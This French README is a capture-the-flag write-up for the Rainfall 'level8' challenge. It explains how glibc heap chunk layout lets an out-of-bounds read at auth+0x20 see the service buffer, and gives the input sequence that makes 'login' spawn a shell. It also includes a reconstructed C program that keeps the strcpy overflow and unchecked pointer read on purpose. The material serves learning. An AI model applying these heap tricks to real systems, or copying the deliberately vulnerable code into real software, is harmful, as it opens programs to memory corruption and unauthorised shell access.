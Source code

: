 # Exploit “heap trick” — `auth + 0x20` (Rainfall level8)

Ce README explique clairement **pourquoi** et **comment** l’exercice `level8` se bypass avec la commande `login` grâce à la mise en page du **tas (heap)** et au test **out-of-bounds** `*(int *)(auth + 0x20)`.

---

## TL;DR

- Le programme lit un **int** (4 octets) à l’adresse **`auth + 0x20`**.
- Sur glibc i386, `malloc(4)` donne un **chunk de 0x10 octets** (16).
- L’allocation de `service` vient **après** celle d’`auth`, à **`auth + 0x10`** (souvent).
- Donc `auth + 0x20` tombe **dans la zone utilisateur de `service`**, à l’offset **`+0x10`**.
- Si tu mets **≥ 20 caractères** dans `service`, les octets `service[16..19]` **≠ 0** → `login` lance `system("/bin/sh")`.

---

## Contexte (simplifié)

Le programme boucle et accepte des commandes :

- `auth <name>` : `auth = malloc(4)` puis `strcpy(auth, name)` si `strlen(name) < 31` (**overflow possible**).
- `service <text>` : `service = strdup(text)`.
- `login` :
  ```c
  if (*(int *)(auth + 0x20) == 0) {
    fwrite("Password:\n",1,10,stdout);
  } else {
    system("/bin/sh");
  }
  ```

---

## Modèle de chunk glibc (i386)

Un chunk `malloc` ressemble à ceci (32‑bits) :

```
[ prev_size (4) ][  size (4)  ][    user data ...     ]
^ adresse chunk                  ^ pointeur retourné par malloc()
```

- **En‑tête = 8 octets** (prev_size + size).
- **Alignement par 8 octets**.
- **Taille minimale** d’un chunk = **0x10** (16).  
  Donc `malloc(4)` → chunk total 0x10 (8 d’en‑tête + 8 utilisables).

---

## Schéma mémoire (adresses croissantes)

Supposons que le programme affiche :

```
auth    = A
service = S    (souvent S = A + 0x10)
```

Mémoire (cas courant `S = A + 0x10`) :

```
A - 0x08: [ prev_size ]    (4)   <-- en-tête du chunk 'auth'
A - 0x04: [   size   ]     (4)
A      : [ user auth ]          <-- auth pointe ici (malloc(4))
A + ...: [ padding   ]          (jusqu'à 0x10 au total)

S - 0x08: [ prev_size ]    (4)   <-- en-tête du chunk 'service'
S - 0x04: [   size   ]     (4)
S      : [ service[0] ]
S + 0x01: [ service[1] ]
...
S + 0x0F: [ service[15] ]
S + 0x10: [ service[16] ]  <-- lu par *(int *)(auth + 0x20)
S + 0x11: [ service[17] ]
S + 0x12: [ service[18] ]
S + 0x13: [ service[19] ]
S + 0x14: [ '\0' ]         (terminateur C)
```

Calcul clé :

```
auth + 0x20 = A + 0x20
service + 0x10 = S + 0x10

Si S = A + 0x10  =>  auth + 0x20 = service + 0x10
```

👉 Le test `*(int*)(auth+0x20)` lit **les 4 octets `service[16..19]`**.

---

## Condition pour déclencher le shell

Pour que `*(int*)(auth+0x20) != 0`, il faut que **au moins un des 4 octets** lus soit **non nul**.

Dans le cas `service = auth + 0x10` :

- Il faut remplir `service[0..19]` → **au moins 20 caractères**.
- Exemple : `service BBBBBBBBBBBBBBBBBBBBBB` (20 × `B`), alors `service[16..19] = 0x42` → non nul → `system("/bin/sh")`.

---

> Exemple de ton run : `S = A + 0x10` → `offset = 0x10` → `min_len = 0x14` (20).

---

## Procédure d’exploitation

### Interactif

```
$ ./level8
(nil), (nil)
auth a
0x804a008, (nil)
service BBBBBBBBBBBBBBBBBBBBBB
0x804a008, 0x804a018
login
# => shell via system("/bin/sh")
```

*(Adapte le nombre de `B` selon la formule si `service` ≠ `auth + 0x10`.)*


---

## Version simplifiée du `main` (équivalente, lisible)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *auth   = NULL;
char *service = NULL;

static void chomp(char *s) {
    if (!s) return;
    size_t n = strcspn(s, "\r\n");
    s[n] = '\0';
}

int main(void) {
    char line[0x80];

    for (;;) {
        printf("%p, %p \\n", auth, service);

        if (!fgets(line, sizeof line, stdin))
            return 0;

        if (strncmp(line, "auth ", 5) == 0) {
            char *name = line + 5;
            chomp(name);
            auth = (char *)malloc(4);
            if (!auth) exit(1);
            memset(auth, 0, 4);
            if (strlen(name) < 31) {
                strcpy(auth, name); // vulnérable
            }
            continue;
        }

        if (strncmp(line, "reset", 5) == 0) {
            free(auth);
            auth = NULL;
            continue;
        }

        if (strncmp(line, "service", 7) == 0) {
            char *rest = line + 7;
            chomp(rest);
            free(service);
            service = strdup(rest);
            continue;
        }

        if (strncmp(line, "login", 5) == 0) {
            if (*(int *)(auth + 0x20) == 0) {
                fwrite("Password:\\n", 1, 10, stdout);
            } else {
                system("/bin/sh");
            }
            continue;
        }
    }
}
```

*(Cette version conserve volontairement les vulnérabilités pour rester fidèle à l’exo.)*

---
